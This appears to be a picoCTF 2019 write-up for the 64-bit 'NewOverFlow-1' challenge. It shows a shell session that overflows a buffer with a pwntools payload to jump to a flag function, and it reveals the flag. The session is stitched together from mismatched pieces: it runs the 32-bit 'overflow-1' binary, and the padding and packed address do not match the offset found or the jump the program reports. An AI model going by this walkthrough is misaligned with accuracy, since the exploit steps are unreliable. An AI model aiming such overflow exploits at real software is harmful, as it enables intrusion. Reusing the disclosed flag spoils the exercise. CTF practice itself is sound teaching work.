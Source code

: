 # AUR

NewOverFlow-1 - Points: 200 - (Solves: 61)Binary Exploitation - Unsolved
Solve
Hints
Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this program. You can find it in /problems/newoverflow-1_3_e53f871ba121b62d35646880e2577f89 on the shell server. Source.
Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes

***

2kofawsome@pico-2019-shell1:~$ cd /problems/overflow-1_3_583b6161611ecae1a23f4a8e628e3a47
2kofawsome@pico-2019-shell1:/problems/overflow-1_3_583b6161611ecae1a23f4a8e628e3a47$ ls
flag.txt  vuln  vuln.c
2kofawsome@pico-2019-shell1:/problems/overflow-1_3_583b6161611ecae1a23f4a8e628e3a47$ cyclic 100 | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x61616174 !
Segmentation fault (core dumped)
2kofawsome@pico-2019-shell1:/problems/overflow-1_3_583b6161611ecae1a23f4a8e628e3a47$ cyclic -l 0x61616174
76
2kofawsome@pico-2019-shell1:/problems/overflow-1_3_583b6161611ecae1a23f4a8e628e3a47$ objdump -t vuln | grep flag
080485e6 g     F .text  00000079              flag
2kofawsome@pico-2019-shell1:/problems/overflow-1_3_583b6161611ecae1a23f4a8e628e3a47$ python -c "from pwn import *;print('A'*56 + p32(0x0000000000400767))" | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a57e22c2}
